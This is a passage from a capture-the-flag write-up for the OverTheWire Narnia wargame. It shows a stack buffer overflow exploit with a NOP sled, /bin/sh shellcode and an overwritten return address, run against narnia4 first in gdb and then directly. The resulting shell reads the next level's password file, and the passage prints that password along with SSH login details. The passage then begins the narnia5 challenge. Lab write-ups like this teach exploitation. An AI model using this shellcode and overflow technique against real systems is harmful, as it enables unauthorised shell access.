 We'll use `0xffffd7b4` as it is in the middle of the *NOP sled*.

```nasm
(gdb) run $(python -c 'print 236 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\xb4\xd7\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia4 $(python -c 'print 236 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\xb4\xd7\xff\xff"')

Breakpoint 1, 0x08048524 in main ()
(gdb) conti
Continuing.
process 22763 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
$
```

Looks like it worked. Let's do the same outside GDB.

```bash
narnia4@narnia:/narnia$ ./narnia4 $(python -c 'print 236 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\xb4\xd7\xff\xff"')
$ whoami
narnia5
$ cat /etc/narnia_pass/narnia5
faimahchiy
```

Success !

## Narnia 05 Solution

**SSH :** *ssh narnia5@narnia.labs.overthewire.org -p 2226*<br/>
**Pass :** *faimahchiy*

First, let's try to execute the program...

```bash
$ ssh narnia5@narnia.labs.overthewire.org -p 2226

narnia5@narnia:~$ cd /narnia/
narnia5@narnia:/narnia$ ./narnia5
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [] (0)
i = 1 (0xffffd6d0)
```

So, we need to modify the **i** variable with the value **500**. We also know the address of **i** which is equal to `0xffffd6d0`.
